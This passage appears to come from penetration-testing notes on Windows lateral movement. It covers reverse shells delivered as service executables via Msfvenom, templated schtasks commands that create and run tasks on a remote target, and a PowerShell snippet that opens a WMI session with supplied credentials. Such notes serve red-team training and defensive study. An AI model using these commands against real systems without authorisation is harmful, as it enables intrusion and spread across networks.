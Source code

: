 ### 3.2. Reverse shell
If we try to run a reverse shell using this method, the reverse shell disconnects immediately after execution. Service executables are different to standard `.exe` files, and therefore non-service executables are killed by the service manager almost immediately. `Msfvenom` supports the `exe-service` format, which will encapsulate any payload inside a fully functional service executable, preventing it from getting killed.

## 4. Scheduled tasks
Scheduled tasks can be created remotely. The `schtasks` tool is available in any Windows installation. The victim's OS is in charge of running the scheduled task, so the attacker is not able to look at the command's output - it's blind attack.

> NOTE: The victim's OS is in charge of running the scheduled task, you won't be able to look at the command output.

```powershell
# Create a task
schtasks /s <target-ip> /RU <user> /create /tn <task-name> /tr <command> /sc ONCE /sd 01/01/1970 /st 00:00 

# Run the task
schtasks /s <target-ip> /run /TN <task-name> 

# Stop the task
schtasks /S <target-ip> /TN <task-name> /DELETE /F
```

## 5. Abusing WMI
WMI allows administrators to perform standard management tasks that attacker can abuse to perform lateral movement. Abusing WMI an attacker is able to remotely create a process or a scheduled task, run a service, install a MSI package.

WMI provides **bunch of ways to perform lateral movement** but first of all WMI session must be established:

### 5.1. WMI session

```powershell
$Username = "<target-user>";
$Password = "<target-pass>";
$TargetHost = "<target-ip>";

# Create PSCredential object
$SecurePassword = ConvertTo-SecureString $Password -AsPlainText -Force;
$Credential = New-Object System.Management.Automation.PSCredential $Username, $SecurePassword;

# Establish WMI session
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName $TargetHost -Credential $Credential -SessionOption $Opt -ErrorAction Stop
```
